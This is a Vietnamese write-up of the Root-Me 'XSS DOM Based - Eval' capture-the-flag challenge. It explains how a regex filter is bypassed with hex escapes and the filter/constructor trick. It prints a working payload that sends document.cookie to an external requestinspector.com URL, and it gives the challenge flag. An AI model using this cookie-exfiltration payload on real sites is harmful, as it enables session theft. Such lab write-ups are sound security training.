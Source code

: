 # Write up challenge XSS DOM Based - Eval

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)<br>
</br>



Truy cập challenge ta thấy có một ô input 

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br>

Tiến hành nhập thử thì nhận được regex  

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<br>

Dựa vào `Let's calculate!` cũng như regex có được ta nhập lại và đoán được phần nào khi nhập đúng sẽ thực hiện tính toán

<img src="./img/3.png" alt="normal_acc_TRAbID"/> 

<img src="./img/4.png" alt="normal_acc_TRAbID"/> 

<br> 

Để ý thấy regex thực hiện kiểm tra phần đầu chuỗi nhập vào nên ta sẽ không thể chèn trực tiếp lệnh, thử cộng thêm lệnh phía sau. Tuy nhiên dấu `(` không được nên ta thay thế bởi dấu `

<img src="./img/5.png" alt="normal_acc_TRAbID"/>

<br>

Thật vậy có lỗ hổng!

<img src="./img/6.png" alt="normal_acc_TRAbID"/>

<br>

Tuy nhiên khi khai thác bằng các câu lệnh khác ta phát hiện khoảng trắng và `<`, `>` không được nhập. Sau khi search thì em tìm được một cú pháp tránh các kí hiệu đó 

<img src="./img/t.png" alt="normal_acc_TRAbID"/>

<br>

Tiến hành sử dụng theo cú pháp,đổi các dấu ngoặc đơn, dấu “<>” và các ký tự đặc biệt như dấu nháy đơn, khoảng trắng  ra mã ascii hexa tương ứng câu lệnh  

    document.write("<img src='https://requestinspector.com/inspect/01fzg5c75hkg0yw6dcfzrgvybd/"+document.cookie+"'>");

<br>

Cuối cùng ta có được code khai thác 

    1+2+[]["filter"]["constructor"]`document.write\x28\x22\x3cimg\x20src=\x27https://requestinspector.com/inspect/01fzg5c75hkg0yw6dcfzrgvybd/\x22+document.cookie+\x22\x27\x3e\x22\x29```

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

<br>

Thành công chèn ảnh 

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

<br> 


Nhận được request chứa cookie của user

<img src="./img/9.png" alt="normal_acc_TRAbID"/>

<br>

Tiến hành gửi url chứa ảnh lỗi cho admin

<img src="./img/10.png" alt="normal_acc_TRAbID"/>


<br>

Có được flag và dùng burpsuite decode ra 

<img src="./img/11.png" alt="normal_acc_TRAbID"/>
<img src="./img/12.png" alt="normal_acc_TRAbID"/>

<br>


Submit thành công 

<img src="./img/13.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** rootme{Eval_Is_DangER0us}

